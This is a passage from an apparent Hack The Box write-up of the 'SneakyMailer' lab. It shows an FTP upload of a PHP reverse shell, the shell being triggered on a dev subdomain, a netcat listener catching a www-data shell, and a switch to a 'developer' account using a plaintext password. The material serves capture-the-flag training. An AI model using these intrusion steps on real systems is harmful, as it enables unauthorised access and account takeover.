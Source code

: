drwxr-xr-x    2 0        0            4096 May 26 19:52 css
drwxr-xr-x    2 0        0            4096 May 26 19:52 img
<span class="nt">-rwxr-xr-x</span>    1 0        0           13742 Jun 23 09:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 19:52 js
drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
<span class="nt">-rwxr-xr-x</span>    1 0        0           26523 May 26 20:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
226 Directory send OK.
ftp&gt;
</pre>
<blockquote><p>let`s try to upload reverse shell and execute it </p></blockquote>
<pre>ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (59.5179 MB/s)</pre>
<blockquote>
<p>i tried to execute it at http://sneakycorp.htb/shell.php but did work</p>  
<p>so i checked if dev is subdomain</p></blockquote>
<img src="https://i.ibb.co/MVDyJ30/sub.png" alt="sub" border="0">
  
<blockquote><p>Lol, it is a subdomain that was easy. You can use a lot of tools to get subdomain and you can be lucky 😂</p>
<p>let`s upload the shell and execute it from http://dev.sneakycorp.htb/shell.php </p>  
</blockquote>
<h2>Shell</h2>
<pre>➜  m19o rlwrap nc -nlvp 1234 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:41628.
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 00:10:18 up 26 min,  0 users,  load average: 0.04, 0.10, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (715): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sneakymailer:/$</pre>
<blockquote><p>It worked and we got in as www-data</p>
<p>let`s us SU to switch to developer user we found</p> 
</blockquote>
<pre>
www-data@sneakymailer:/$ su developer
su developer
Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C

developer@sneakymailer:/$
</pre>
<blockquote><p>i found 2 users</p></blockquote>  
<pre>developer@sneakymailer:/home$ ls
ls
low  vmail</pre>
  
